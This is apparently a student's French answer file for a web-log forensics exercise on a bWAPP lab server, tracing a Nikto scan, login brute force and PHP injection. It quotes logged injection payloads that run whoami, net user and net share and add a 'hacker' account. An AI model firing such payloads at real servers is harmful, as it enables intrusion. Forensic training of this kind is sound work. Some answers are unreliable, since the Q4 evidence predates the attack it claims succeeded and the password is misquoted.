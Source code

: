 # D34 - Fichier de réponses

## Case 01 

### 1. Quel outil a été utilisé pendant la phase de reconnaissance (scan) ?

192.168.199.2 - - [20/Jun/2021:12:36:26 +0300] "HEAD /bwapp/192.168.tar.lzma HTTP/1.1" 404 - "-" "Mozilla/5.00 (Nikto/2.1.6) (Evasions:None) (Test:sitefiles)"

HEAD /bwapp/... HTTP/1.1 est la requête elle-même. Une requête HEAD est une méthode qui demande une réponse identique à celle d'une requête GET, mais sans le corps de la réponse. C'est-à-dire, il demande seulement les en-têtes de réponse. Cela peut être utilisé pour récupérer les métadonnées d'un document ou vérifier si un document existe sans télécharger le document lui-même. Les chemins après le /bwapp/ sont les chemins d'accès que le demandeur essayait d'accéder. Cela semble indiquer une tentative d'accéder à des fichiers ou des répertoires potentiellement sensibles.

Dans l'ensemble, il semble que quelqu'un ait effectué un scan de sécurité ou une tentative de recherche de vulnérabilités sur votre serveur web en utilisant Nikto.

### 2. Après la phase de reconnaissance, quelle technique a été utilisée pour découvrir la liste des répertoires accessibles sur le serveur web ?
L'attaquant a utilisé un outil de scrapping pour extraire les informations des pages web.

### 3. Après la fin de la phase de découverte des répertoires, de quel type d'attaque l'application est-elle la cible ?

1. une attaque par brute force sur le serveur : directory listing (correspond à la phase de découverte).
2. une attaque par injection de code PHP.
3. une attaque par brute force sur le login pour se connecter
4. une attaque d'injection de commande pour vérifier le nom de l'utilisateur connecté:  
   192.168.199.2 - - [20/Jun/2021:12:52:36 +0300] "GET /bWAPP/phpi.php?message=%22%22;%20system(%27whoami%27) HTTP/1.1" 200 12778 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0"
5. une attaque pour voir tous les utilisateurs:  
   192.168.199.2 - - [20/Jun/2021:12:52:46 +0300] "GET /bWAPP/phpi.php?message=%22%22;%20system(%27net%20user%27) HTTP/1.1" 200 13045 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0"
6. une attaque qui affiche tous les partages de fichiers:  
   192.168.199.2 - - [20/Jun/2021:12:52:56 +0300] "GET /bWAPP/phpi.php?message=%22%22;%20system(%27net%20share%27) HTTP/1.1" 200 13175 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0"
7. une attaque qui ajoute un nouvel utilisateur nommé "hacker" avec le mot de passe "Asd123":  
   192.168.199.2 - - [20/Jun/2021:12:53:23 +0300] "GET /bWAPP/phpi.php?message=%22%22;%20system(%27net%20user%20hacker%20Asd123!!%20/add%27) HTTP/1.1" 200 12755 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0"

### 4. Cette dernière attaque a-t-elle fonctionné ou a-t-elle échoué ?
A la ligne 12548, on voit que le hacker accède au portail, il a donc réussi à se connecter:  
192.168.199.2 - - [20/Jun/2021:12:50:10 +0300] "GET /bWAPP/portal.php HTTP/1.1" 200 23369 "http://192.168.199.5/bWAPP/login.php" "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0"
